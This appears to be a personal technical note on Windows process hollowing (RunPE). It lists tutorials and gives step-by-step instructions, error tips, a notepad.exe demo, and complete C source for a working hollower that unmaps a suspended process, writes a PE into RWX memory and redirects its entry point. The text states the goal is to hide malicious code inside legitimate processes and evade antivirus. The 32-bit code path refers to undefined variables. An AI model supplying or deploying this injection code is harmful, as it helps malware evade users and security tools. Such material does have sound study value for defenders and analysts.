

# Process Hollowing
https://attack.mitre.org/techniques/T1093/On forums Process Hollowing also gets called:
• RunPE (because you're running a Portable Executable from memory)
• dynamic forking (because you fork execution into another created process)
Process hollowing is when you create or open a process, suspended it, unmap it, and write your own malicious code into it.
You can spawn a 2nd version of yourself and inject into that, or spawn another windows binary, like
notepad.exe.
The goal of process hollowing is to disguise your malicious code behind a legitimate looking process - like
notepad.exe. This will hopefully evade user detection and antivirus detection.
## Tutorials
•
https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations•
https://github.com/m0n0ph1/Process-Hollowing - ired's resource
•
http://www.autosectools.com/process-hollowing.pdf - where m0n0ph1 copied from - very good
•
https://www.youtube.com/watch?v=bQWRW0VUXR4 - Zer0Mem0ry RunPE
◇
https://github.com/Zer0Mem0ry/RunPE/blob/master/RunPE.cpp - source
•
https://0x00sec.org/t/crypters-instruments-of-the-underground/386 - dtm - check 'Runtime Crypter' section
•
http://www.rohitab.com/discuss/topic/40262-dynamic-forking-process-hollowing/ - zwclose7 Rohitab tutorial 2013
◇
https://www.rohitab.com/discuss/topic/41441-pe-injection-new/ - new version 2015
•
http://www.rohitab.com/discuss/topic/42237-understanding-process-hollowing/ - About fixing imports
◇ Ch40zz writes shellcode into target that relocates PE and imports extra DLLs
◇ I've implemented this in DLL manual mapper
## References / Demos
•
https://github.com/hasherezade/demos/blob/master/run_pe/src/runpe.h - hasherezade demo
•
http://blog.w4kfu.com/tag/duqu - FreeLibrary instead of ZwUnmapViewOfSection
•
https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All-wp.pdf - 2019 - Paper on old and modern process injection/hollowing techniques against Windows 10 1809
## Overview
Create suspended process -> Unmap it -> Memory map your PE into it -> Set entry point in register -> Resume process
• Create a suspended target process -
CreateProcessA• Grab suspended process' image base (by reading its PEB, using
GetThreadContext, etc.)
• Relocate PE to target's image base (base relocations)
• Fix imports by changing source PE's image base to currently running target PE's image base
• Match the source PE's image subsystem to the target PE's image susbsystem (e.g. Console or GUI)
• Unmap target process at its image base -
NtUnmapViewOfSection• Allocate memory in target process at image base -
VirtualAllocEx• Memory map your PE into the target's memory (MAKE SURE TO USE VirtualAddress, not RawData )
◇ PE headers first
◇ Then loop through sections and copy 1 by 1
• Grab the target process's registers -
GetThreadContext• Write your PE's entry point into the target's registers
◇ for 32bit, write into EAX
◇ for 64bit, write into RCX
• Resume execution of the target process. Your PE should execute -
ResumeThread## Limitations
ArchitectureThe architecture's must match
• 32bit PEs have to be injected into 32bit processes
• 64bit PEs have to be injected into 64bit processes
SubsystemThe subsystems have to be the same
• Console PEs can be injected into GUI PEs - BUT the source PE's subsystem must be changed (from Console to GUI)
• I've no idea if GUI PEs can be injected into Console PEs
The
Subsystem in
OptionalHeader is where Console or GUI is defined:
You can find the subsystem in
OptionalHeader.SubsystemYou can check the application subsystem with a PE viewer, like CFF Explorer.
## Things to know
• According to hasherezade, "we are not forced to do it (unmapping) if it doesn't disturb our chosen base"
• The demo code below seems to work without base relocations. I have no idea why
## Potential Errors
0xc0000005• Think this means that code execution is being prevented
◇ Could be because security checks are blocking execution from read/write/executable memory
◇ Try disabling Security Checks in Visual Studio if you're injecting into yourself
0xc0000142 • Means your image subsystems don't match
## Demo
We create a suspended process -
notepad.exe, unmap it at its base address, and allocate R/W/X memory there.
Here we can see that at
notepad.exe's base address -
0x00007ff732000000 - the memory is empty
Next we memory map (inject) our PE into the target process.
Now we see that the memory has been filled with our injected process
Lastly, we modify the entry point of
notepad.exe and resume it.
Our injected program has now run inside of
notepad.exe## Code
Here's the code I'm injecting:
#include <Windows.h>
int main(void)
{
MessageBoxA(NULL, "hey there. i'm a PE. i've been injected :)", "smile", MB_OK);
return 0;
}
And the code below is my process hollowing code.
It injects into
notepad.exe.
The
ProcessHollow() function is where everything happens - read that if you're lost. It will take you to everything else.
/*
Process hollowing example.
Creates a suspended `notepad.exe` and injects into it.
If you inject into a Console application, make sure to change the IMAGE_SUBSYSTEM to `Console` in the ProcessHollow() function.
*/
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
typedef struct BASE_RELOCATION_ENTRY
{
USHORT Offset : 12;
USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;
// typedefs for undocumented functions
typedef NTSTATUS(__stdcall* t_NtUnmapViewOfSection)(HANDLE Processhandle, PVOID BaseAddress);
t_NtUnmapViewOfSection d_NtUnmapViewOfSection;
/*
Make sure to call free(file_buffer) after you're done.
*/
LPVOID ReadFileIntoBuffer(char* file_name, OUT DWORD* file_buffer_size)
{
LPVOID file_buffer = NULL;
BOOL b_ret = TRUE;
HANDLE h_file = NULL;
DWORD file_size = 0;
// open target file
h_file = CreateFileA(file_name, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (h_file == INVALID_HANDLE_VALUE)
{
printf("[-] failed to open target file: %d \n", GetLastError());
goto cleanup;
}
// get file size
file_size = GetFileSize(h_file, NULL);
(*file_buffer_size) = file_size;
// create buffer to read file into
file_buffer = malloc(file_size);
// read file into buffer
b_ret = ReadFile(h_file, file_buffer, file_size, NULL, NULL);
if (b_ret == FALSE)
{
printf("[-] failed to read file into buffer: %d \n", GetLastError());
free(file_buffer);
goto cleanup;
}
cleanup:
if (h_file) CloseHandle(h_file);
return file_buffer;
}
/*
Convert VirtualAddress (address in memory) to raw address (address on disk).
Does so by finding which PE section your VirtualAddress is in,
subtracting the section's start address to find the relative virtual address,
and then adding the RVA to the start of the section on disk.
*/
DWORD va2raw(LPVOID file_buffer, DWORD va)
{
DWORD rva = 0;
DWORD raw_address = 0;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
PIMAGE_SECTION_HEADER section_header = NULL;
// grab section header
dos_header = (PIMAGE_DOS_HEADER)file_buffer;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)file_buffer + dos_header->e_lfanew);
section_header = IMAGE_FIRST_SECTION(pe_header);
if (va < section_header->PointerToRawData)
return va;
// loop through sections
for (int i = 0; i < pe_header->FileHeader.NumberOfSections; i++)
{
// find start and end of current section
DWORD section_start = section_header->VirtualAddress;
DWORD section_end = section_header->VirtualAddress + section_header->SizeOfRawData;
// if the provided RVA is within the bounds of this current section
if (va >= section_start && va < section_end)
{
// calculate raw address
rva = va - section_start;
raw_address = section_header->PointerToRawData + rva;
break;
}
// advance to next section
section_header += 1;
}
return raw_address;
}
/*
Loop through relocation table and perform base relocations.
Uses raw addresses!
*/
BOOL PerformBaseRelocations(LPVOID file_buffer, LPVOID target_base)
{
BOOL okay = TRUE;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
PIMAGE_FILE_HEADER coff_header = NULL;
PIMAGE_OPTIONAL_HEADER pe_optional_header = NULL;
PIMAGE_BASE_RELOCATION reloc_table = NULL;
PIMAGE_BASE_RELOCATION reloc_block = NULL;
PBASE_RELOCATION_ENTRY reloc_entry = NULL;
DWORD reloc_table_size = 0;
SIZE_T image_base_delta = 0;
dos_header = (PIMAGE_DOS_HEADER)file_buffer;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)dos_header + (DWORD_PTR)dos_header->e_lfanew);
// calcuate difference in base addresses - the delta
image_base_delta = (SIZE_T)target_base - (SIZE_T)pe_header->OptionalHeader.ImageBase;
printf("\t original base: 0x%p \n", (LPVOID)pe_header->OptionalHeader.ImageBase);
printf("\t target base: 0x%p \n", target_base);
printf("\t delta: 0x%p \n", (LPVOID)image_base_delta);
if (image_base_delta == 0)
{
printf("\t [!] image bases are the same. no relocations needed! \n");
okay = TRUE;
return okay;
}
// grab relocation table
reloc_table = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)file_buffer + va2raw(file_buffer, pe_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress));
reloc_table_size = pe_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].Size;
printf("\n\t----- RELOCATION DIRECTORY ----- @ 0x%p \n", reloc_table);
// grab first relocation block
// first relocation block is at same address as relocation table
reloc_block = reloc_table;
// loop through relocation table
DWORD block_count = 1;
DWORD no_of_entries_in_block = 0;
DWORD position_in_reloc_table = 0;
while (position_in_reloc_table < reloc_table_size)
{
// read block info
no_of_entries_in_block = (reloc_block->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
printf("\t\t block #%d \n", block_count);
printf("\t\t\t size: 0x%x \n", reloc_block->SizeOfBlock);
printf("\t\t\t no. of entries: %d \n\n", no_of_entries_in_block);
// grab first relocation entry in block
reloc_entry = (PBASE_RELOCATION_ENTRY)(reloc_block + 1);
// loop through entries in block
for (DWORD i = 0; i < no_of_entries_in_block; i++)
{
// grab address of relocation. value at that address is the function address to relocate
#ifdef _WIN64
PDWORD64 reloc_addr = (LPVOID)((DWORD64)file_buffer + va2raw(file_buffer, reloc_block->VirtualAddress) + reloc_entry->Offset);
#else
PDWORD reloc_addr = (LPVOID)((DWORD)file_buffer + va2raw(file_buffer, reloc_block->VirtualAddress) + reloc_entry->Offset);
#endif
printf("\t\t\t reloc #%d \t[TypeOffset] 0x%X%X ", i, reloc_entry->Type, reloc_entry->Offset);
printf("\t\t [original value] 0x%p ", (LPVOID)*reloc_addr);
/*
Perform relocations by adding the image base delta to the value stored at the relocation address.
LOW relocations point to the lower 8 bits of WORD values.
HIGH relocations point to the higher 8 bits of WORD values.
HIGHLOW relocations point to DWORD values.
DIR64 relocations point to DWORD64 values.
*/
switch (reloc_entry->Type)
{
case IMAGE_REL_BASED_ABSOLUTE: // 0
printf("\t [type] ABSOLUTE- skipping relocation ");
break;
case IMAGE_REL_BASED_HIGH: // 1
printf("\t [type] HIGH ");
PWORD reloc_addr_HIGH = (PWORD)reloc_addr; // typecast reloc_addr as a pointer to a WORD
*reloc_addr_HIGH += HIWORD(image_base_delta); // add the higher 8 bits of the delta at reloc_addr
break;
case IMAGE_REL_BASED_LOW: // 2
printf("\t [type] LOW ");
PWORD reloc_addr_LOW = (PWORD)reloc_addr; // typecast reloc_addr as a pointer to a WORD
*reloc_addr_LOW += LOWORD(image_base_delta); // add the lower 8 bits of the delta at reloc_addr
break;
case IMAGE_REL_BASED_HIGHLOW: // 3
printf("\t [type] HIHGLOW ");
PDWORD reloc_addr_HIGHLOW = (PDWORD)reloc_addr; // typecast reloc_addr as a pointer to a DWORD
*reloc_addr_HIGHLOW += image_base_delta; // add the delta to the value at reloc_addr
break;
case IMAGE_REL_BASED_DIR64: // 10
printf("\t [type] DIR64 ");
PDWORD64 reloc_addr_DIR64 = (PDWORD64)reloc_addr; // typecast relocAddr as a pointer to a DWORD64
*reloc_addr_DIR64 += image_base_delta; // add the delta to the value at reloc_addr
break;
default:
printf("\t\t [type] UNKNOWN- skipping relocation ");
break;
}
// read data at reloc_addr to check it's been modified
printf("\t\t [modified value] 0x%p \n", (LPVOID)*reloc_addr);
// advance to next entry
reloc_entry += 1;
}
// advance to next block
block_count += 1;
position_in_reloc_table += reloc_block->SizeOfBlock;
reloc_block = (PIMAGE_BASE_RELOCATION)((DWORD64)reloc_block + reloc_block->SizeOfBlock);
}
return okay;
}
/*
Get the base address of a remote process.
Doesn't use undocumented structs & functions.
Return:
On success, returns image base of target.
On failure, returns NULL.
*/
LPVOID GetRemoteBaseAddress(HANDLE h_process, HANDLE h_thread)
{
BOOL b_ret;
LPVOID image_base_location = NULL;
LPVOID image_base_address = NULL;
CONTEXT remote_ctx = { 0 };
remote_ctx.ContextFlags = CONTEXT_FULL;
// get thread info about remote process
b_ret = GetThreadContext(h_thread, &remote_ctx);
if (b_ret == FALSE)
return NULL;
// read base address from registers
#ifdef _WIN64
image_base_location = (LPVOID)(remote_ctx.Rdx + 16);
b_ret = ReadProcessMemory(h_process, image_base_location, &image_base_address, 8, NULL);
if (b_ret == FALSE)
return NULL;
#else
image_base_location = (LPVOID)(remote_ctx.Ebx + 8);
b_ret = ReadProcessMemory(h_process, image_base_location, &image_base_address, 4, NULL);
if (b_ret == FALSE)
return NULL;
#endif
return image_base_address;
}
BOOL ProcessHollow(LPVOID source_pe, char* target_name)
{
BOOL okay = TRUE;
BOOL b_ret = TRUE;
NTSTATUS nt_status;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
PIMAGE_SECTION_HEADER section_header = NULL;
LPVOID source_base = NULL;
LPVOID target_base = NULL;
STARTUPINFOA target_si = { 0 };
PROCESS_INFORMATION target_pi = { 0 };
CONTEXT target_ctx = { 0 };
target_ctx.ContextFlags = CONTEXT_FULL;
// get source PE info
dos_header = (PIMAGE_DOS_HEADER)source_pe;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)source_pe + dos_header->e_lfanew);
source_base = (LPVOID)pe_header->OptionalHeader.ImageBase;
printf("[*] source: \n");
printf("\t buffer loaded at: 0x%p \n", source_pe);
printf("\t image base: 0x%p \n", source_base);
printf("\t entry point: 0x%p \n", (LPVOID)pe_header->OptionalHeader.AddressOfEntryPoint);
// create a suspended target process
b_ret = CreateProcessA(NULL, target_name, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &target_si, &target_pi);
if (b_ret == FALSE)
{
printf("[-] failed to create suspended process: %d \n", GetLastError());
okay = FALSE;
goto cleanup;
}
else
printf("[*] target process created: \"%s\" \n", target_name);
// grab base address of target process
target_base = GetRemoteBaseAddress(target_pi.hProcess, target_pi.hThread);
if (target_base == NULL)
{
printf("[-] failed to get base address of target process \n");
okay = FALSE;
goto cleanup;
}
else
printf("\t target base address: 0x%p \n", target_base);
/*
NOTE:
I can comment out both relocating the PE and changing the source base, and the code will still work.
I have no idea why. Implies my image rebasing is wrong? (but I don't think it is)
*/
// relocate PE to target base
printf("[*] performing base relocations \n");
b_ret = PerformBaseRelocations(source_pe, target_base);
// change source base address to target base address so that imports will work
pe_header->OptionalHeader.ImageBase = (SIZE_T)target_base;
printf("[*] modified source base to target base: 0x%p \n", (LPVOID)pe_header->OptionalHeader.ImageBase);
// match the source PE's subsystem with the target PE's subsystem (usually Console or GUI)
// you get a 0xc00000142 error if the source PE and target PE's subsystems don't match
pe_header->OptionalHeader.Subsystem = IMAGE_SUBSYSTEM_WINDOWS_GUI;
printf("[*] changed subsystem to: 0x%x \n", IMAGE_SUBSYSTEM_WINDOWS_GUI);
// hollow out target process from image base
printf("[*] hollowing... \n");
d_NtUnmapViewOfSection = (t_NtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("Ntdll.dll"), "NtUnmapViewOfSection");
nt_status = d_NtUnmapViewOfSection(target_pi.hProcess, target_base);
if (!NT_SUCCESS(nt_status))
{
printf("[-] failed to get hollow target @ 0x%p \n", target_base);
okay = FALSE;
goto cleanup;
}
else
printf("\t target hollowed at: 0x%p \n", target_base);
// allocate memory in target process
target_base = VirtualAllocEx(target_pi.hProcess, target_base, pe_header->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (target_base == NULL)
{
printf("[-] failed to allocate memory in target @ 0x%p \n", target_base);
okay = FALSE;
goto cleanup;
}
else
printf("\t allocated RWX memory in target at: 0x%p \n", target_base);
// write PE headers into target
b_ret = WriteProcessMemory(target_pi.hProcess, target_base, source_pe, pe_header->OptionalHeader.SizeOfHeaders, NULL);
if (b_ret == FALSE)
{
printf("\t failed to write PE headers to 0x%p \n", target_base);
okay = FALSE;
goto cleanup;
}
else
printf("\t wrote PE headers to 0x%p \n", target_base);
// write PE sections section 1 by 1 (as windows loader does) to map the source PE into the target's memory
printf("\t sections: \n");
section_header = IMAGE_FIRST_SECTION(pe_header);
LPVOID section_address = NULL;
LPVOID write_address = NULL;
for (DWORD i = 0; i < pe_header->FileHeader.NumberOfSections; i++)
{
section_address = (LPVOID)((DWORD_PTR)source_pe + section_header->PointerToRawData);
write_address = (LPVOID)((DWORD_PTR)target_base + section_header->VirtualAddress);
b_ret = WriteProcessMemory(target_pi.hProcess, write_address, section_address, section_header->SizeOfRawData, 0);
if (b_ret == FALSE)
{
printf("\t\t failed to write %s to 0x%p \n", section_header->Name, write_address);
okay = FALSE;
goto cleanup;
}
else
printf("\t\t wrote %s to 0x%p \n", section_header->Name, write_address);
section_header += 1;
}
// grab registers from target process
b_ret = GetThreadContext(target_pi.hThread, &target_ctx);
if (b_ret == FALSE)
{
printf("[-] failed to grab registers of target process: %d \n", GetLastError());
okay = FALSE;
goto cleanup;
}
/*
Copy our injected PE's entry point into the target process's register.
- for 32bit, the entry point is copied into EAX
- for 64bit, it goes in RCX
*/
#ifdef _WIN64
target_ctx.Rcx = (DWORD_PTR)target_base + pe_header->OptionalHeader.AddressOfEntryPoint;
printf("[*] copied source entry point into RCX: 0x%p \n", (LPVOID)target_ctx.Rcx);
#else
target_ctx.Eax = (DWORD_PTR)target_BaseAddress + source_PeHeader->OptionalHeader.AddressOfEntryPoint;
printf("[*] copied source entry point into EAX: 0x%p \n", (LPVOID)target_ctx.Eax);
#endif
// run our injected PE by resuming the process
printf("[*] resuming execution... \n");
SetThreadContext(target_pi.hThread, &target_ctx);
ResumeThread(target_pi.hThread);
cleanup:
CloseHandle(target_pi.hProcess);
CloseHandle(target_pi.hThread);
printf("[*] exiting \n");
return okay;
}
int main(int argc, char* argv[])
{
printf("# process hollower \n");
BOOL b_ret = TRUE;
char* source_pe = NULL;
char target_process[] = "C:\\Windows\\system32\\notepad.exe";
LPVOID source_pe_buffer = NULL;
DWORD source_pe_size = 0;
#ifdef _WIN64
source_pe = "C:\\Users\\Bob\\Desktop\\injectme64.exe";
#else
source_pe = "C:\\Users\\Bob\\Desktop\\injectme32.exe";
#endif
source_pe_buffer = ReadFileIntoBuffer(source_pe, &source_pe_size);
if (source_pe_buffer == NULL)
{
printf("[-] failed to read source PE into buffer: %d \n", GetLastError());
goto cleanup;
}
b_ret = ProcessHollow(source_pe_buffer, target_process);
cleanup:
if (source_pe_buffer) free(source_pe_buffer);
return 0;
}